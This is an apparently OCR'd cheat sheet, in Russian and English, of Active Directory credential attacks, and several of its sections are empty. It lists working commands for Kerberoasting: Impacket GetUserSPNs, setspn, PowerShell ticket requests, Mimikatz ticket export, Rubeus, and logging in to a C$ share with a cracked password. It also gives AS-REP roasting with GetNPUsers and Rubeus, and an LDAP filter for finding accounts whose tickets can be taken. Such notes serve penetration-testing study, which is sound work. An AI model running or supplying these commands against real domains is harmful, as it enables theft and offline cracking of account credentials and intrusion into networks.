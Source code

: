 ## Kerberoasting (NEED CREDENTIALS!):  
1) GetUserSPNs.py domain.local/user:password - RECON SPNs  
2) GetUserSPNs.py -request -dc-ip 10.0.0.1 domain.com/username  
3) GetUserSPNs.py domain.local/user:password -dc-ip [DC IP] -request  
4) Windows: setspn -T DomainName -Q \*/\*  
    - загружаем билеты в память для дальнейних действий.  
    - Add-Type -AssemblyName System.IdentityModel  
    - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSERVER/SQL-Server.testdomain.com:1433"  
    - Проверяем, что билет загружен в память: klist  
    - Invoke-Mimikatz –Command '" kerberos::list"' /export (модуль PowerSploit)  
        - Софт для перебора билета tgsrepcrack.py https://github.com/nidem/kerberoast  
    - После взлома пароля: net use \\WIN-4QHPFSI8002\c$ /user:SQLSVC Password1  
5) Windows: Rubeus.exe kerberoast /outfile:hashes.txt  
 
Всех пользователей, у которых можно выгрузить TGS-билет, можно найти поисковым LDAP-фильтром: (&(samAccountType=805306368)(servicePrincipalName=*))

## ASREP Roasting (Impacket, Rubeus):  

**Description**: AS-REP Roasting is a technique that enables adversaries to steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline.  

**Get users NTLMv2 hash with Impacket**: GetNPUsers.py -userfile [file] -outputfile [output filename] -dc-ip [DC IP] domain/  

**Get users NTLMv2 hash with Rubeus**: Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.txt  

**Aditional information**:  
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast  

## Unconstrained Delegation:  


## Constrained Delegation:  


## Alternate Service Name:  


## 

